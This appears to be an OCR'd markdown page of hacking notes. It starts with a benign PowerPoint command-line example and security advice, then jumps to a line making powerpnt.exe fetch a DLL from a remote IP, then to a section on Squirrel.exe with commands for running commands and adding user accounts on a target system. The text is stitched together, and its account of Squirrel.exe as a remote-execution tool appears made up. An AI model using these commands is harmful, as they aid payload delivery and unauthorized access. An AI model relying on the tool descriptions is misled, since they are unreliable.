 ### Example

To open a presentation named "example.pptx" in full-screen mode, use the following command:

```
powerpnt.exe /F example.pptx
```

This will launch PowerPoint and display the "example.pptx" presentation in full-screen mode.

### Security Considerations

As with any executable file, it is important to ensure that powerpnt.exe is obtained from a trusted source and not tampered with. Running executables from untrusted sources can pose a security risk to your system.

Additionally, be cautious when opening PowerPoint files from unknown or untrusted sources, as they may contain malicious content or exploits. Always keep your system and antivirus software up to date to mitigate potential risks.
```
Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
```
# Squirrel.exe

Squirrel.exe is a command-line utility that allows you to execute commands on a remote Windows system. It is commonly used by pentesters and hackers to gain unauthorized access to a target system.

## Usage

To use Squirrel.exe, you need to have administrative privileges on the target system. Once you have obtained the necessary permissions, you can execute commands by running the following command:

```
squirrel.exe <command>
```

Replace `<command>` with the command you want to execute on the target system.

## Examples

Here are some examples of how you can use Squirrel.exe:

- To list all the files in a directory, you can use the following command:

```
squirrel.exe dir C:\path\to\directory
```

- To create a new user account on the target system, you can use the following command:

```
squirrel.exe net user <username> <password> /add
```

Replace `<username>` and `<password>` with the desired username and password for the new user account.
